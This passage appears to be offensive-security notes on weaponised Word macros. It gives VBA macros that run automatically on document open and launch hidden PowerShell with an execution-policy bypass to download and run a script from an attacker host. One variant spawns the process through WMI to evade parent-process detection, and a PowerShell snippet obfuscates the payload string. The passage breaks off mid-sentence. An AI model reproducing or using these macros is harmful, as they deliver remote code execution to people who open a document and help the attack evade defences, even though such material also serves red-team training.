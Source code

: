 OR you can try:
```vb
Sub MyMacro()
  Dim strArg As String
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://<ATTACKER_IP>/run.txt'))"
  Shell strArg, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Powershell Shellcode Runner Calling WMI (Windows Management Instrumentation Framework)</b></span>
Our goal is to use WMI from VBA to create a PowerShell process instead of having it as a child process of Microsoft Word. The Macro does not even use the _Shell_ function.

```vb
Sub MyMacro
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://<ATTACKER_IP>/run.txt'))"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

Even better if we obfuscate the code using:
```powershell
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://<ATTACKER_IP>/run.txt'))"

[string]$output = ""

$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
    }
}
$output
```
The output will be something like: `16253714276124...`
Use the above script to: